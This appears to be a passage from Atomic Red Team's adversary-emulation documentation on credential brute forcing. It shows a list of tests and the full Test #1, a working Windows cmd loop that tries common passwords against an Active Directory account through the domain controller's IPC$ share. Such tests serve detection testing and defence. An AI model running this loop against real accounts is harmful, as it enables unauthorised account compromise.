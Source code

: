 - [Atomic Test #3 - Brute Force Credentials of single Azure AD user](#atomic-test-3---brute-force-credentials-of-single-azure-ad-user)

- [Atomic Test #4 - Password Brute User using Kerbrute Tool](#atomic-test-4---password-brute-user-using-kerbrute-tool)

- [Atomic Test #5 - SUDO Brute Force - Debian](#atomic-test-5---sudo-brute-force---debian)

- [Atomic Test #6 - SUDO Brute Force - Redhat](#atomic-test-6---sudo-brute-force---redhat)

- [Atomic Test #7 - SUDO Brute Force - FreeBSD](#atomic-test-7---sudo-brute-force---freebsd)

<br/>

## Atomic Test #1 - Brute Force Credentials of single Active Directory domain users via SMB

Attempts to brute force a single Active Directory account by testing connectivity to the IPC$ share on a domain controller

**Supported Platforms:** Windows

**auto_generated_guid:** 09480053-2f98-4854-be6e-71ae5f672224

#### Inputs:

| Name | Description           | Type   | Default Value |
| ---- | --------------------- | ------ | ------------- |
| user | Account to bruteforce | string | %username%    |

#### Attack Commands: Run with `command_prompt`!

```cmd
echo Password1> passwords.txt
echo 1q2w3e4r>> passwords.txt
echo Password!>> passwords.txt
echo Spring2022>> passwords.txt
echo ChangeMe!>> passwords.txt
@FOR /F "delims=" %p in (passwords.txt) DO @net use %logonserver%\IPC$ /user:"%userdomain%\#{user}" "%p" 1>NUL 2>&1 && @echo [*] #{user}:%p && @net use /delete %logonserver%\IPC$ > NUL
```

<br/>
<br/>

## Atomic Test #2 - Brute Force Credentials of single Active Directory domain user via LDAP against domain controller (NTLM or Kerberos)

Attempt to brute force Active Directory domain user on a domain controller, via LDAP, with NTLM or Kerberos

**Supported Platforms:** Windows

**auto_generated_guid:** c2969434-672b-4ec8-8df0-bbb91f40e250
